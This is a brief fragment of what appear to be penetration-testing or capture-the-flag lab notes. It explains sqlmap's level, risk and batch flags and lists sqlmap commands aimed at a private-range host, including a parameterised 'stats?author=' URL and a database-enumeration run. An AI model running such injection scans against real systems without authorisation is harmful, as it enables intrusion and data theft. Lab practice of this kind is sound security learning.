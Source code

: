 --level=5 highest level
--risk=3 highest level 
--batch - run without asking any questions

sqlmap -u http://10.10.11.170:8080/ --batch


sqlmap -u http://10.10.11.170:8080/stats?author=woodenk --level=5 --risk=3 --batch



Enumerate databases
> sqlmap -u http://10.10.11.170:8080 --level=5 --risk=3 --batch --dbs

